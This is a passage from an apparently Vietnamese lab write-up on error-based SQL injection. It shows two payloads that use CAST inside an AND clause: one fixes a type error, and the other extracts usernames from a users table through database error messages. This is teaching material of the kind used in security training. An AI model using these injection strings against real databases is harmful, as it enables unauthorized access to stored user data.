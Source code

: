 => lỗi arg của hàm AND (phải là kiểu boolean) sửa lại query: `' AND 1=CAST((SELECT 1) AS int)--`

![image-20250601120009591](./image/image-20250601120009591.png)

=> Truy vấn hợp lệ

- Dùng câu lệnh select, lấy username: 

`' AND 1=CAST((SELECT username FROM users) AS int)--`

![image-20250601120254597](./image/image-20250601120254597.png)
